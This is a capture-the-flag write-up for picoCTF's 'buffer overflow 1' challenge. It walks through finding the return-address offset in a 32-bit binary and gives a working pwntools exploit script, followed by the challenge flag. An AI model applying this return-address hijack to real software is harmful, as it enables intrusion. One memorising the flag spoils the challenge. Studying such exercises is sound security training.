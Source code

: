 # buffer overflow 1
## Overview
Points: x
Category: Binary Exploitation

## Description
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](./vuln). You can view source [here](./vuln.c). And connect with it using `nc saturn.picoctf.net 63016`


## Hints

1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.

## Solution

If you look closely to the `vuln.c`, our objective is simply to jump to the `win` function.

We can first see in the source code that were given, and if you look carefully, there is a "define" above the function that said "BUFFSIZE 32", and the program used a dangerous function which is "gets". Running the checksec command to see the Security that setted for the binary we got this.

<p align=center>
    <img src="./checksec.png" width=40%>
</p>

Take note that this binary is a 32-bits binary with no security settings.

We gonna start the exploitation using gdb with GEF. Using a pattern create to generate a string of a default 1024 bytes, then we just need to run the program and find out the offset.

With GEF we can simply use this command to see the offset of an address.  
```gef> pattern search $esp``` 

<p align=center>
    <img src="./patternsearch.png" width=50%>
</p>

As you can see we found it at 48, but remember it's a 32-bits binary, which mean the ESP may be equals to the EIP. What we want to control here is where the program jump, which mean the EIP. We can confirm this by using a ```pattern create 48``` then see the "returning to" string that print out the EIP values.

<p align=center>
    <img src="./return.png"  width=50%>
</p>

`0x6161616c` is actually the hex value of the last four char `laaa`, that means if we want to go to `win`, the real payload would be

```
payload = (b'a' * 44) + address of win
```

Now it's the time to make our exploit.
```python
from pwn import *

binary = './vuln'
elf = context.binary = ELF(binary)

#p = process(binary)
p = remote('saturn.picoctf.net',57535)
p.recv()

payload = b'a'*44
payload+= p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

Notice we use the `p32()` specifier, because it's a 32-bit binary, we need the correct packing to be able to send the payload correctly, in this case a pack 32 or `p32()`.

Just run the payload and now you will get the flag.

## Flag

```picoCTF{addr3ss3s_ar3_3asy_0195a40f}```